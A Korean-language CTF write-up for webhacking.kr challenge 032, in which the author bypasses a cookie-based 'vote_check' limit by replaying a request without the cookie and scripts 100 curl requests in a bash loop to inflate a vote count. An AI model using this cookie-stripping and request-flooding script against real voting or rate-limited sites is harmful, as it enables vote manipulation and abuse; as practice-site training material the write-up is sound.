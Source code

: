 ```yaml
---
layout: post
title: webhacking.kr 032
source: "webhacking.kr"
category: Web
rpath: /resource/webhacking.kr_032
tag: [burp_suite, repeater] 
---
```


**Category:** Web

**Source:** webhacking.kr

**Points:** 150

**Author:** Jisoon Park(js00n.park)

**Description:** 

>![img]({{page.rpath|prepend:site.baseurl}}/prob.png)

## Write-up

RANK가 있는 걸로 봐서는 뭔가 순위를 보여주는 페이지인것 같다.

아무 ID(여기서는 younghero)나 클릭해보면 HIT 점수가 1 오르는 것을 볼 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/vote.png)

한번 더 클릭했을 때는 no라는 메세지가 나오고 더이상 HIT 점수가 오르지 않았다.

![img]({{page.rpath|prepend:site.baseurl}}/error.png)

뭐가 다르지 하고 두 번의 request 내용을 비교해 봤더니, cookie에 "vote_check=ok"라는 내용이 추가된 것을 알 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/req1.png)

![img]({{page.rpath|prepend:site.baseurl}}/req2.png)

첫번째 request의 response를 보면 cookie가 추가되는 것을 명시적으로 확인할 수 있다.

![img]({{page.rpath|prepend:site.baseurl}}/setcookie.png)

맨 아래쪽의 join 버튼을 누르면 차트에 진입할 수 있는데, 일단 진입한거 1등을 달성해보자.

vote_check이 들어가지 않은 request를 반복적으로 보내면 될거 같다.

코딩하기 귀찮아서 burp suite의 repeater 기능을 이용했는데, 이것도 100번을 누르려니 귀찮아서 curl command로 복사(Copy as curl command)해서 결국 간단히 쉘 코딩을 하고 말았다.

```bash
#!/bin/bash

c=1
while [ $c -le 100 ]
do
    curl -i -s -k  -X $'GET' \
    -H $'Host: webhacking.kr' -H $'Upgrade-Insecure-Requests: 1' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8' -H $'Referer: http://webhacking.kr/challenge/codeing/code5.html' -H $'Accept-Encoding: gzip, deflate' -H $'Accept-Language: en-US,en;q=0.9,ko;q=0.8' -H $'Cookie:  PHPSESSID=1f2df9a71e78841959b0656b05a2cadb' -H $'Connection: close' \
    -b $'PHPSESSID=1f2df9a71e78841959b0656b05a2cadb' \
    $'http://webhacking.kr/challenge/codeing/code5.html?hit=matta'

    ((c++))
done
```

코드를 실행해서 투표 점수가 100점을 넘으니 문제를 해결할 수 있었다.

![img]({{page.rpath|prepend:site.baseurl}}/flag.png)
